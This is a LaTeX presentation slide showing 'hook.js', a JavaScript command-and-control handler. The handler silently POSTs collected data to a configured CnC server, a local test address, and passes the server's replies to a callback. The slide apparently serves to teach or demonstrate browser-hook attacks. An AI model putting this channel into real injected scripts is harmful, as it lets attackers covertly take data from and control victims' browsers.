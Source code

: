 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{}
  \frametitle{The Code}
  \framesubtitle{JavaScript CnC}
  \begin{center}
    \begin{tcolorbox}[title=hook.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        var config = {                                                                      //CnC server configuration
          server: "127.0.0.1",                                                              //Our test CnC server
          port: 80                                                                          //CnC port
        };
        function cnc(data, callback){                                                       //CnC Handler
	      try{
		    let http = new XMLHttpRequest();
		    http.onreadystatechange = function(){
		      if (this.readyState == 4 && this.status == 200){
				callback(this.responseText);                                //Callback function
				return true;
			  }
			  if (this.readyState == 4 && this.status != 200){
				return false;                                               //Try to fail silently
			  }
		    };
		    http.open('POST', 'http://' + config.server + ':' + config.port, true); //Connect to CnC server
		    http.setRequestHeader('Content-Type', 'application/json');
		    http.send(JSON.stringify(data));                                        //Send the data
		    return true;
	      } catch(error){
		    return false;
	      }
        }
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\end{document}

